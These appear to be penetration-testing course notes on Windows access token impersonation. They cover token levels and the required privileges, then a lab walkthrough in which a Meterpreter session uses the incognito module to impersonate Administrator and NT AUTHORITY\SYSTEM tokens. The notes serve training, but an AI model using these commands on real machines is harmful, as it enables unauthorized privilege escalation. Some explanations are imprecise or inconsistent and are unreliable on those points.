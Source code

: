 # 3 - Access Token Impersonation

### **Windows Access Tokens**

* Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
* A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
* Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
* Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
* An access token will typically be assigned one of the following security levels:
  * **Impersonate-level** tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  * **Delegate-level** tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.
  * Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.
  * Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

### **Windows Privileges**

* The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.
* The following are the privileges that are required for a successful impersonation attack:
  * **SeAssignPrimaryToken**: This allows a user to impersonate tokens.
  * **SeCreateToken:** This allows a user to create an arbitrary token with administrative privileges.
  * **SeImpersonatePrivilege:** This allows a user to create a process under the security context of another user typically with administrative privileges.

### **The Incognito Module**

* Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
* We can use the incognito module to display a list of available tokens that we can impersonate.



## **Practical Demonstration**

#### Gaining initial access on the target PC.

We will utilize the Rejetto Http File Server service vuln like in previous session.

#### To the attack.

> This attack depends on a few factors:
>
> * what user accts are currently on the system.
> * which of these users has admin priv or are part of the Local Admin group.
> * if you find an access token that is available or you can impersonate, then you can impersonate or obtain the priv associated with that access token.
> * Though the assess token does not need to belong to a particular user.

```bash
# using metasploit.
# we have a 32bit meterpreter session.
pgrep explorer
migrate <explorer ID>
# notice we can't migrate our process to a 64bit process (explorer process) because of insufficient priv.
getprivs
# we also notice we have the "SeImpersonatePrivilege" meaning we can use this acct to impersonate other acct to impersonate other access tokens available.
# using the "incognito" module.
load incognito
# if the session died, thats because we tried migrating to a process initially.
# so run the exploit again.
exploit
load incognito
list_tokens -u # list the "-u" to list the user option to list the user acct access tokens.
# inorder to impersonat the "ATTACKDEFENSE\Administrator" token we use the "impersonate_token" cmd.
impersonate_token "ATTACKDEFENSE\Administrator"
getuid  # we have successfully elevated our priv.
getprivs # we get an "Operation denied", so lete migrate to a 64bit process 1st.
pgrep explorer
migrate <explorer ID>
getprivs  # we now have admin privs.
getuid  # we are administrator.

# we can also impersonate the "NT AUTHORITY\SYSTEM" token too.
impersonate_token "NT AUTHORITY\SYSTEM"
getuid  # we are now NT AUTHORITY.


```



